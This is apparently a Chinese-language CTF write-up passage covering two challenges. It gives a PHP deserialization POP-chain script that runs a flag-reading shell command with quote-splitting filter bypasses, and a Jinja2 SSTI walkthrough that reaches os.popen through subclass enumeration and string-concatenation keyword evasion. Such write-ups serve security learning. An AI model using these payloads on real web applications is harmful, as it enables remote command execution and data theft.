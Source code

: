 这个反序列化直接进行触发tostring就可以

```php
<?php
class minipop
{
    public $code = "cat /flag_is_h3eeere |script 1";  //cat /flag_is_h3eeere | t''ee b
    public $qwejaskdjnlka;
}
$a = new minipop();
$b = new minipop();
$b->qwejaskdjnlka = $a;
echo serialize($b);
```

命令：

```php
ls / | t''ee b
cat /flag_is_h3eeere | t''ee b
cat /flag_is_h3eeere |script 1
```

```
Linux tee命令用于读取标准输入的数据，并将其内容输出成文件。
tee file1 file2 //复制文件
ls /|tee 1.txt //命令输出
```

用这个`cat /flag_is_h3eeere |script 1`将文件内容写进`1`文件，访问1就可以

![image-20231024222024890](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231024222024890.png)

### GenShin

这里GET传参，传什么返回什么，应该是ssti模板注入

![image-20231031220913440](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231031220913440.png)

用`{{}}`发现被过滤了,这里还可以用`{% %}`也可以执行命令

```
看一下子类
{%print("".__class__.__mro__[1].__subclasses__())%}
找一下能用的模板<class 'os._wrap_close'>
然后找它的位置，是132
```

![image-20231031222536385](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231031222536385.png)

```
接着用__init__重载函数，发现被过滤了可以用["__in"+"it__"]，这里发现单引号也被过滤了，用双引号，中括号，大括号
然后再用__goblas__,这里用popen执行命令，这里popen也是被过滤掉了用+进行拼接绕过["po"+"pen"]
```

![image-20231031223425625](https://dabai-1316520326.cos.ap-nanjing.myqcloud.com/img/image-20231031223425625.png)
